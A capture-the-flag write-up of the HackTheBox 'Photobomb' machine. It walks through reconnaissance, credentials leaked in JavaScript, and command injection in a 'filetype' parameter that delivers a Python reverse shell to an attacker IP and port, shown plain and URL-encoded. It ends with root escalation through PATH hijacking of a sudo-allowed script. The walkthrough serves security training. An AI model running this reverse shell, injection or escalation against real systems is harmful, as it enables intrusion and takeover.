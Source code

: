 # HackTheBox: Photobomb Writeup

## Photobomb
### Reconnaissance | Scanning

To begin with, our first priority is to conduct reconnaissance using the provided IP. Our plan is to perform an Nmap scan of the network in order to identify any open ports.

No alt text provided for this image
Nmap Scan

By analyzing the current status, we can observe that only two ports are accessible - port 22 and port 80. The latter, identified as an http port, appears to be running nginx 1.18.0 on Ubuntu. Our next course of action is to focus on port 80 and investigate any potential website content. Utilizing the given IP address of `10.129.228.60`, we can explore the contents available on this specific port.

No alt text provided for this image
IP Showing URL Name

At this point, we need to include the new URL `photobomb.htb` to the `/etc/hosts` file to access the corresponding webpage. From here we will nano into the `/etc/hosts` file.

No alt text provided for this image
etc/hosts file

With the updated IP and URL added to the `/etc/hosts` file, we can now revisit the browser and access the photobomb.htb link. This will allow us to delve deeper into the website and conduct further investigation.

No alt text provided for this image
Webpage working properly

On the page, we have a hyperlink "click here!" that leads to `photobomb.htb/printer`. Upon clicking on the link, a login popup appears. We attempted to log in with the credentials [![Credentials](https://img.shields.io/badge/admin:-admin-red)](https://shields.io/), but no response was generated. Cancelling the login led us to a 401 Authorization Required error, accompanied by nginx/1.18.0 (Ubuntu) message.

No alt text provided for this image
Login

No alt text provided for this image
401 Authorization Required Link: photobomb.htb/printer

Our next step is to examine the source code of the photobomb.htb webpage. After some investigation, we discovered a photobomb.js file that we can explore further.

No alt text provided for this image
photobomb.js file that show credentials

After conducting a thorough examination of the photobomb.js file, we have uncovered the existence of credentials embedded within the Javascript code. Our next step is to attempt to log in using the credentials [![Credentials](https://img.shields.io/badge/pH0t0:-b0Mb!-green)](https://shields.io/).

No alt text provided for this image
Login page for phtobomb.htb/printer

No alt text provided for this image
Bottom of page with Download Photo button

Our next course of action is to set up BurpSuite in order to intercept the connections originating from the "Download Photo to Print" button. This will allow us to view any information or prompts that may appear prior to the page progressing further.

No alt text provided for this image
Intercepting with BurpSuite

### Gaining Access
At this point, we can begin testing for any potential vulnerabilities with the "Download Photo to Print" button. Our initial approach will be to test for a delay or timing attack by attempting to cause a five-second delay and observing the response.

After conducting further testing and experimenting with the sleep function, it has been confirmed that the page can be made to sleep for five seconds. This may indicate the presence of a potential vulnerability that could be further exploited.

To obtain a reverse shell, we utilized the Online Reverse Shell Generator (revshells.com) and selected the Python3 #1 option.

```
export RHOST="10.10.14.78";export RPORT=5555;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```

Our next step will involve URL encoding the reverse shell and embedding it into the `&filetype=jpg&` field in BurpSuite. Additionally, we must establish a Netcat listener. The method I used to URL encode the reverse shell is by utilizing the built-in function in BurpSuite.

```
%3bexport%20RHOST%3D%2210.10.14.78%22%3Bexport%20RPORT%3D5555%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27
```

No alt text provided for this image
URL Encoded Reverse Shell

Upon advancing the page in BurpSuite, we successfully captured traffic using the Netcat listener. This indicates that the reverse shell was successfully executed and that we have gained access to the target system.

No alt text provided for this image
Netcat Listener | User Wizard

Now that we have gained access to the target system, we can proceed to investigate the user "Wizard" and explore the contents of their account.

No alt text provided for this image
Traversing Directories found User Flag

### Maintaining Access
After traversing through the system directories, I successfully obtained the user flag from the "user.txt" file. Our next step will be to obtain root privileges through privilege escalation.

No alt text provided for this image
Sudo -l

Using the command `sudo -l`, we were able to determine the type of root privileges granted to the user. It appears that the user has root privileges to execute the command `/opt/clean.sh`. To proceed, we will investigate the `/opt/clean.sh` file by running the `cat /opt/clean.sh` command. This will display the contents of the file in the terminal.

No alt text provided for this image
cat /opt/cleanup.sh

In the next step, we need to switch to the bash shell and then set the executable permission for the `find` file to gain complete access. We can accomplish this by running `chmod +x find`. The command `echo bash > find` will create a file named `find` in the current directory and write the string `bash` to it. If the file already exists, it will be overwritten.

No alt text provided for this image
echo bash > find | chmod +x find

The next command is `sudo PATH=$PWD:$PATH /opt/cleanup.sh`. This will add the current working directory to the beginning of the $PATH environment variable, giving priority to any executables in the current directory over those in other directories. Then, it runs the `/opt/clean.sh` script with sudo, which will execute with root privileges because of the sudo command.

No alt text provided for this image
Root Access

Once you have root access, you can investigate the system further for any important information, such as configuration files, logs, and running processes. This will help you understand how the system works and identify any potential vulnerabilities or misconfigurations that can be exploited. You can also check for any user accounts, credentials, or sensitive data that may be stored on the system. It's important to document your findings and take steps to secure the system to prevent future attacks.

No alt text provided for this image
Root Flag
